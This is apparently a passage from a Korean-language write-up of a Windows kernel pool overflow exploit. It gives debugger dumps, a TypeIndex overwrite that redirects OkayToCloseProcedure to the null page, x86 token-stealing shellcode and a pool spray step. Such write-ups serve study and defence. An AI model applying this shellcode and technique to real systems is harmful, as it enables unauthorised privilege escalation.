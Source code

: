 ```
kd> dt _OBJECT_TYPE 85543768
+0x000 TypeList             : _LIST_ENTRY [ 0x85543740 - 0x869c6738 ]
...
+0x028 TypeInfo             : _OBJECT_TYPE_INITIALIZER
...
```

이제 TypeInfo 를 까보자.

```
kd> dt nt!_OBJECT_TYPE_INITIALIZER 0x85543768+0x28
+0x000 Length               : 0x50
...
+0x04c OkayToCloseProcedure : (null)
```

`0x28` + `0x4c` = `0x74` 이니까, `Type Index` 를 0 으로 세팅하면 `0x00000000 + 0x74` 에서 `OkayToCloseProcedure` 를 읽게된다.

#### allocShellcode()

```
    "\x42" * 0x70

    OkayToCloseProcedure (0x00000078)

    ADD ESI,0C
    MOV DWORD PTR DS:[ESI],8000A
    SUB ESI,0C # RESTORE TypeIndex

    xor eax,eax # Token stealing shellcode
    mov eax,DWORD PTR fs:[eax+0x124]
    mov eax,DWORD PTR [eax+0x50]
    mov ecx,eax
loc_0000000e:
    mov eax,DWORD PTR [eax+0xb8]
    sub eax,0xb8
    cmp DWORD PTR [eax+0xb4],0x4
    jne loc_0000000e
    mov edx,DWORD PTR [eax+0xf8]
    mov DWORD PTR [ecx+0xf8],edx
    ret 0x10

    "\x90"
    "\x90"
    ...
```

이 쉘코드를 NtAllocateVirtualMemory() 로 `0x00000004` 에 allocate 한다.

#### Spray()

Spray the kernel pool with IoCompletionReserve objects. Each object is 0x60 bytes in length and is allocated
from the non-paged kernel pool.
